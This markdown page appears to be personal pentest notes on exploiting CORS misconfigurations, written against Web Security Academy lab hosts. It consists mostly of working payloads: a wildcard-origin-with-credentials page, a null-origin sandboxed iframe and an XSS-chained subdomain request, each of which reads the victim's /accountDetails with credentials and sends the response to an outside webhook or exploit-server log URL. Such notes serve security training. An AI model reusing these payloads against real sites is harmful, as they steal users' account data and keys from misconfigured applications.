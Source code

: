 ```yaml
---
title: "Cors"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



##  Basic Cors Misconfiguration :

`Access-Control-Allow-Origin * && Access-Control-Allow-Credentials is True`

```sh
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("https://0a08009804f217fe803f21a500fa0046.web-security-academy.net");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);

    function retrieveKeys() {
            location='https://webhook.site/383f0fd1-02c0-4dfa-a570-a146e498e388/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```

## Null Origin :

- Sometimes the Null value is accepted so if `Origin: null` is reflected you can do this :

```sh
<iframe sandbox='allow-scripts allow-top-navigation allow-forms' src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a5e006d0328ba97827c602100bb0093.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a6c006c0386baea820e5f1f013e00e3.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```
## XSS + CORs

- Check Allow origin : 

If there is an xss in a subdomain you can exploit the Cors , in this case it only accept this domain `http://0a8600b203276610850ea08900b8000b.web-security-academy.net` and also the subdomain .

```sh
Origin: http://0a8600b203276610850ea08900b8000b.web-security-academy.net
Origin: http://subdomain.0a8600b203276610850ea08900b8000b.web-security-academy.net
```

- It then responds with:

```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.0a8600b203276610850ea08900b8000b.web-security-academy.net Access-Control-Allow-Credentials: true 
```

- So you can do this : 
`Don't forget to url the + and < in the script balise to avoid conflic !!`

```sh
<script>
document.location="http://stock.0a8600b203276610850ea08900b8000b.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8600b203276610850ea08900b8000b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a51006f03fe66fd85589fa101060074.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```